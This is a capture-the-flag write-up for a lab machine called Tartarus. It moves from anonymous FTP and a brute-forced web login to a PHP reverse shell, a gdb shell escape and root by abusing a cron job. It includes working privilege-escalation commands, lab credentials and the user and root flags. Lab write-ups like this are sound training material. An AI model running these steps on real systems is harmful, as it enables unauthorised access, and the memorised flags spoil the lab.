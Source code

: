 ## IP=10.10.215.149


# Tartarus #

### Approach:
	
1. Apache server with a /robots.txt page.
	* User-Agent: *
	* Disallow : /admin-dir
	* 'I told d4rckh we should hide our things deep.'

2. FTP (21), SSH (22), HTTP (80)
	* Can log into FTP with anonymous.

3. Found hidden file on FTP server: `cd .../.../yougotgoodeyes.txt`.
	* Gave us: `/sUp3r-s3cr3t`, which is a login page.

4. Used BurpSuite to brute force the username and password of the login page.
	* Username: `enox`
	* Password: `P@ssword1234`

5. Once logged in, you can upload files. Uploaded a php reverse shell, but didn't know where the uploads were. Decided to run gobuster on the new endpoint: `gobuster dir -u http://$IP/sUp3r-s3cr3t -x html,php,sh -o gobuster_super-secret.log`. 
	* Found `sUp3r-s3cr3t/images/uploads`.
	* Was able to run my php reverse shell and gain access.
		* Locally: `nc -lnvp 4444`.

6. Found two users: `thirtytwo` and `d4rckh`
	* There is a `user.txt` in d4rckh.
		* '0f7dbb2243e692e3ad222bc4eff8521f'
	* There is a `note.txt` in thirtytwo.
		* ```Hey 32, the other day you were unable to clone my github repository. Now you can use git. Took a while to fix it but now its good :) ~D4rckh```

7. Can switch to user, thirtytwo, using gdb:
	* `./gdb -nx -ex 'python import os; os.execl("/bin/bash", "bash", "-p")' -ex quit`

8. Used linpeas.sh to view some exploit opportunities. Noticed a cron job executing the python program, /home/d4rckh/cleanup.py, as root.

9. As user, thirtytwo, edit the /home/d4rckh/cleanup.py file using nano. Replace everyting under the import statements with this command, `os.system('chmod u+s /bin/bash')`. Wait for the cron job to run. Once it executes, you'll have access to run /bin/bash as root.
	* Root privilege escalation: `/bin/bash -p`.


### Questions:

1. User Flag

```
0f7dbb2243e692e3ad222bc4eff8521f
```

2. Root Flag

```
7e055812184a5fa5109d5db5c7eda7cd
```
